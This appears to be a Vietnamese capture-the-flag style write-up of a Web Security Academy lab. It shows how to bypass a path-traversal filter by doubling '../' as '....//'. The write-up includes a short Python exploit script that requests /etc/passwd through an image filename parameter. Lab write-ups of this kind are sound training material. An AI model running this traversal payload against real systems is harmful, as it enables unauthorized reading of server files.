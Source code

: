 ### Đề bài

![image](https://hackmd.io/_uploads/BkCXZDwY6.png)

### Phân tích

<ul>
    <li>tương tự bài trước mình đã dùng burp suite chặn các request và click vào View detail để chọn xem 1 sản phẩm
    </li>
    <li>và mình bắt được gói tin yêu cầu 1 file ảnh từ server 
    </li>
</ul>

![image](https://hackmd.io/_uploads/rJG4GvwF6.png)

### khai thác

để kiểm tra lỗi Path traversal mình đã dùng các dấu **".\./"** để di chuyển lên các thư mục cha của thư mục hiện tại và với mục đích để đọc được file **/etc/passwd**

và mình đã không đọc được file này như bài trước có vẻ như lab này đã có cơ chế chặn hay mã hóa các ký tự "." và "/"

![image](https://hackmd.io/_uploads/BkAszvwKp.png)

có vẻ là các ký tự '.\./' đã bị loại bỏ nhưng nếu tôi gấp đôi chúng lên thì sao ví dụ ".\.'.\./'/" thì bộ lọc sẽ bỏ .\./ tại vị trí dấu **''** mà tôi đã đánh dấu và trở thành ".\./" giúp chúng ta đọc được file /etc/passwd như các bài trước

![image](https://hackmd.io/_uploads/rJ2y7wwYa.png)

tôi đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'https://0a4900c0034cd08e85a1d1190072005b.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/image?filename=....//....//....//etc/passwd',
    verify=False,
)

print(response.text) # hiển thị response có flag
```
